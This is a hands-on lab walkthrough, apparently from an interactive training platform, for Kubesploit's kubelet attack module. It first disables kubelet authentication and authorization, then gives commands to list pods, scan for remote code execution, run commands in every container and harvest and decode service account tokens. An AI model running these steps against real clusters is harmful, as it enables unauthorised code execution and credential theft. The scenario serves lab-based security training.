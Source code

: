 
#### Introduction  

In this scenario, we will use Kubesploit to exploit a vulnerable kubelet.  
Kubelet is the remote agent of Kubernetes that runs on each worker, and its primary goal is to run containers.  
On a vulnerable kubelet, an attacker can access the containers, get their names and run code inside them.  


#### Prepare the enviornment  


For this scenario we will need to do some changes for kubelet:  
```
if [ -f "/var/lib/kubelet/config.yaml" ]; then
	sed -i 's/    enabled: false/    enabled: true/g' /var/lib/kubelet/config.yaml
    sed -i 's/  mode: Webhook/  mode: AlwaysAllow/g' /var/lib/kubelet/config.yaml
    service kubelet restart
	echo "Kubelet config has been changed"
	else
	  echo "The file /var/lib/kubelet/config.yaml doesn't exist, does the cluster is up?"
fi
```{{execute HOST2}}   

After the change, check from the Master that you can communicate with kubelet without authentication:  
```
if [ `curl -sk  https://node01:10250/healthz` == "ok" ]; then
   echo "Kubelet is configured for anonymous connections"
   else
   echo "Kubelet is NOT configured"
fi
```{{execute T3}}  

Make sure you get the message: "Kubelet is configured for anonymous connections". If not, try again until it gets configured.  

#### Load the Kubelet module and run it

Load the kubelet attack module from Terminal Host 1 by running `use module linux/go/kubeletAttack`{{execute T1}}.  

You can view all the information with `info`{{execute T1}} command.  
The module is set automatically to run on all the agents with this command; if it wasn't set, you could do it by running `set Agent all`{{execute T1}}.   
We need to set the IP of the target machine, let's find the IP by running `ip addr show ens3  | awk '$1 == "inet" { print $2 }' | cut -d/ -f1`{{execute T3}} in `node1`.  
Now, take this IP address and type in the server `set Url https://<IP>:10250`, and replace `<IP>` with the IP address we received.  

The default command will list the pods through kubelet, execute it with `run`{{execute T1}} and wait for the output.  

#### Scan for RCE    
We can also change the command by using `set Command rce`{{execute T1}} and `run`{{execute T1}} it.  

#### Run any command 
 
Change the command by using `set Command run -a whoami`{{execute T1}} and `run`{{execute T1}} it.   
It will run the `whoami` command on all the available containers.  

#### Scan for tokens
Change the command by using `set Command token`{{execute T1}} and `run`{{execute T1}} it.   
It will go over any available container and search for the container's mounted service account token and decode it.    


